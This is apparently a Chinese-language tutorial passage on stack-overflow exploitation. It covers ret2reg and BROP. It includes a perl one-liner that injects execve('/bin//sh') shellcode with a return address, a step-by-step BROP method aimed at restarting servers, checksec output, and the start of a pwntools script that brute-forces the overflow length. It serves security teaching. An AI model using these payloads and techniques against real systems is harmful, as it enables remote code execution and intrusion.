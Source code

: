 或者使用prel命令：

```plain
./ret2reg $(perl -e 'printf "\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x31\xc0\xb0\x0b\xcd\x80" . "A"x499 ."\x73\x83\x04\x08"')
```

## BROP

### 原理

BROP 是没有对应应用程序的源代码或者二进制文件下，对程序进行攻击，劫持程序的执行流。

攻击条件：

1.  源程序必须存在栈溢出漏洞，以便于攻击者可以控制程序流程。
2.  服务器端的进程在崩溃之后会重新启动，并且重新启动的进程的地址与先前的地址一样（这也就是说即使程序有 ASLR 保护，但是其只是在程序最初启动的时候有效果）。目前 nginx, MySQL, Apache, OpenSSH 等服务器应用都是符合这种特性的。

见[https://wiki.x10sec.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#\_13](https://wiki.x10sec.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#_13)

### 思路

1.  **判断栈溢出长度**，如有必要可以通过栈溢出来泄露 canaries、rbp 和返回地址
2.  寻找能够返回到 main 函数的 gadgets（通常称为 **stop\_gadget**）
3.  寻找 **brop gadgets**（例如 \_\_libc\_csu\_init 中的 gadgets），定位 pop rdi ; ret 的地址
4.  寻找 **puts 或 write 函数的 plt**，用于 leak 其它地址的值
5.  **dump plt 表**，用于 leak 所需函数的 got 地址
6.  通过 leak 到的 got 地址，**找到对应 libc 版本**，通过 libc 执行系统命令进行 **getshell**

### 利用

1、checksec:

```plain
qufeng@qufeng-virtual-machine:~/Desktop/brop$ checksec brop
[*] '/home/qufeng/Desktop/brop/brop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

64位，只开启了NX堆栈保护，没有开启canary

2、判断栈溢出长度：

可以使用之前的方法，这里使用下面脚本：

```plain
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *


def GetBufferLength():
    i = 1
    while 1:
        try:
            p = process('./brop')
            p.recvuntil('WelCome my friend,Do you know password?\n')
            p.send('A' * i)
            out = p.recv()
            p.close()
            # 没有返回到main函数
            if not out.startswith('No password'):#startswith用来判断返回的值以什么开头,判断回传数据
                print 'Buffer flow length:%d'%(i-1)
```